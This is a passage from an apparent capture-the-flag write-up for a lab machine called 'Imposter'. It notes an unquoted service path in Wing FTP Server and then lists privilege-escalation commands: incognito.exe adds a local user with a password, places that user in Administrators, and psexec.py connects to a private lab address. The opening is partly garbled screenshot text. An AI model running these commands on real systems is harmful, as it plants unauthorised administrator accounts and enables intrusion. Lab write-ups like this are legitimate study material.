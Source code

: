 C:\Program Files (x86)\Wing FTP Server\WFTPServer.exe service


  Wing FTP Server(Wing FTP Server)[C:\Program Files (x86)\Wing FTP Server\WFTPServer.exe service] - Auto - Running - No quotes and Space de
tected

Well this is kinda usless coz you cannot start or query or check the service and hence the name of the box is Imposter. We will use it to do some privesc.

> https://github.com/milkdevil/incognito2

```cmd
incognito.exe add_user darkterror abcABCdefDEF@123!
```

```cmd
incognito.exe add_localgroup_user Administrators darkterror
```

```zsh
python psexec.py 'darkterror'@172.31.1.20
```
